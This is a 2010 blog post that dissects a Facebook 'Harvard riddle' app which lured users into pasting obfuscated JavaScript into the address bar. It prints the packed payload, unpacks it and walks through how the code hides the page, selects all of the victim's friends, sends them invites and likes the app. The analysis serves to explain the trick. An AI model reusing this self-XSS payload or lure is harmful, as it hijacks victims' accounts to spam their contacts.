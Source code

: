 ```yaml
---
layout: post
title: "Shady Harvard Puzzle Facebook App Disassembled"
date: 2010-04-26 22:32:33 +0000
permalink: /en/shady-harvard-puzzle-facebook-app-disassembled
blog: en
tags: javascript
render_with_liquid: false
---
```


Today I got an email from a friend on Facebook that suggested that I try
out this application called "[Only 4% of harvard grads can solve this
riddle..](http://www.facebook.com/pages/Only-4-of-harvard-grads-can-solve-this-riddle/112049325499228?v=wall)".
Being curious I took a look at it.

The app starts out innocently enough, posing a riddle that supposedly
only 4% of Harvard grads can guess.

![image](http://farm5.static.flickr.com/4062/4554647376_5a38c707a8.jpg)

But in order to see the answer it asks you to type "Ctrl-C" to copy some
javascript, "Alt-D" to select your address bar, and "Ctrl-V Enter" to
run the javascript.

Here is the beautified packed javascript.

```javascript
javascript: (function () {
  a = "app112010525500764_jop";
  b = "app112010525500764_jode";
  ifc = "app112010525500764_ifc";
  ifo = "app112010525500764_ifo";
  mw = "app112010525500764_mwrapper";
  eval(
    (function (p, a, c, k, e, r) {
      e = function (c) {
        return (
          (c < a ? "" : e(parseInt(c / a))) +
          ((c = c % a) > 35 ? String.fromCharCode(c + 29) : c.toString(36))
        );
      };
      if (!"".replace(/^/, String)) {
        while (c--) r[e(c)] = k[c] || e(c);
        k = [
          function (e) {
            return r[e];
          },
        ];
        e = function () {
          return "\\w+";
        };
        c = 1;
      }
      while (c--)
        if (k[c]) p = p.replace(new RegExp("\\b" + e(c) + "\\b", "g"), k[c]);
      return p;
    })(
      'J e=["\\n\\g\\j\\g\\F\\g\\i\\g\\h\\A","\\j\\h\\A\\i\\f","\\o\\f\\h\\q\\i\\f\\r\\f\\k\\h\\K\\A\\L\\t","\\w\\g\\t\\t\\f\\k","\\g\\k\\k\\f\\x\\M\\N\\G\\O","\\n\\l\\i\\y\\f","\\j\\y\\o\\o\\f\\j\\h","\\i\\g\\H\\f\\r\\f","\\G\\u\\y\\j\\f\\q\\n\\f\\k\\h\\j","\\p\\x\\f\\l\\h\\f\\q\\n\\f\\k\\h","\\p\\i\\g\\p\\H","\\g\\k\\g\\h\\q\\n\\f\\k\\h","\\t\\g\\j\\z\\l\\h\\p\\w\\q\\n\\f\\k\\h","\\j\\f\\i\\f\\p\\h\\v\\l\\i\\i","\\j\\o\\r\\v\\g\\k\\n\\g\\h\\f\\v\\P\\u\\x\\r","\\B\\l\\Q\\l\\R\\B\\j\\u\\p\\g\\l\\i\\v\\o\\x\\l\\z\\w\\B\\g\\k\\n\\g\\h\\f\\v\\t\\g\\l\\i\\u\\o\\S\\z\\w\\z","\\j\\y\\F\\r\\g\\h\\T\\g\\l\\i\\u\\o"];d=U;d[e[2]](V)[e[1]][e[0]]=e[3];d[e[2]](a)[e[4]]=d[e[2]](b)[e[5]];s=d[e[2]](e[6]);m=d[e[2]](e[7]);c=d[e[9]](e[8]);c[e[11]](e[10],I,I);s[e[12]](c);C(D(){W[e[13]]()},E);C(D(){X[e[16]](e[14],e[15])},E);C(D(){m[e[12]](c);d[e[2]](Y)[e[4]]=d[e[2]](Z)[e[5]]},E);',
      62,
      69,
      "||||||||||||||_0x95ea|x65|x69|x74|x6C|x73|x6E|x61||x76|x67|x63|x45|x6D||x64|x6F|x5F|x68|x72|x75|x70|x79|x2F|setTimeout|function|5000|x62|x4D|x6B|true|var|x42|x49|x48|x54|x4C|x66|x6A|x78|x2E|x44|document|mw|fs|SocialGraphManager|ifo|ifc|||||||".split(
        "|",
      ),
      0,
      {},
    ),
  );
})();
```

Here we have some javascript code that is packed. The above code unpacks
the packed code and evals it. I replaced the above eval with console.log
and ran the code to output the packed code. Here it is beautified.

```javascript
d = document;
d["getElementById"](mw)["style"]["visibility"] = "hidden";
d["getElementById"](a)["innerHTML"] = d["getElementById"](b)["value"];
s = d["getElementById"]("suggest");
m = d["getElementById"]("likeme");
c = d["createEvent"]("MouseEvents");
c["initEvent"]("click", true, true);
s["dispatchEvent"](c);
setTimeout(function () {
  fs["select_all"]();
}, 5000);
setTimeout(function () {
  SocialGraphManager["submitDialog"](
    "sgm_invite_form",
    "/ajax/social_graph/invite_dialog.php",
  );
}, 5000);
setTimeout(function () {
  m["dispatchEvent"](c);
  d["getElementById"](ifo)["innerHTML"] = d["getElementById"](ifc)["value"];
}, 5000);
```

Lets go though the code above step by step.

```javascript
d["getElementById"](mw)["style"]["visibility"] = "hidden";
```

This code hides the application's main block.

```javascript
d["getElementById"](a)["innerHTML"] = d["getElementById"](b)["value"];
```

The contents of the textarea at id b ('app112010525500764_jode') is
html for a dialog to suggest the application to your friends. The code
inserts it into a block on the page.

```html
<textarea
  id="app112010525500764_jode"
  style="display: none;"
  fbcontext="86d477030eb0"
>
  <div class="suggestdiv">
    <a id="suggest" href="#" ajaxify="/ajax/social_graph/invite_dialog.php?class=FanManager&node_id=112049325499228" class=" profile_action actionspro_a" rel="dialog-post">Suggest to Friends</a>
  </div>
  <div class="likemediv">
    <a ajaxify="/ajax/pages/fan_status.php?fbpage_id=112049325499228&add=1&reload=0&preserve_tab=1&use_primer=1" id="likeme" rel="async-post" class="UIButton UIButton_Gray UIButton_CustomIcon UIActionButton" href="#">
    <span class="UIButton_Text"><i class="UIButton_Icon img spritemap_icons sx_icons_like"></i>Like</span></a>
  </div>
</textarea>
```

The next code sets up a mouse click event and selects some elements from
the suggest box.

```javascript
s = d["getElementById"]("suggest");
m = d["getElementById"]("likeme");
c = d["createEvent"]("MouseEvents");
c["initEvent"]("click", true, true);
s["dispatchEvent"](c);
```

The code below is the shady part. It sets 5 second timers that will
click items on the suggestion box, effectively selecting all of your
friends and suggesting the application to them. It then likes the
application.

```javascript
setTimeout(function () {
  fs["select_all"]();
}, 5000);
setTimeout(function () {
  SocialGraphManager["submitDialog"](
    "sgm_invite_form",
    "/ajax/social_graph/invite_dialog.php",
  );
}, 5000);
setTimeout(function () {
  m["dispatchEvent"](c);
  d["getElementById"](ifo)["innerHTML"] = d["getElementById"](ifc)["value"];
}, 5000);
```

As of this writing 543 people had liked the application which I take to
mean that 543 people followed the instructions on the application. The
application itself doesn't do anything particularly bad besides spam all
of your friends so I took it to be a security research application.
Anyone else have a better take on it?
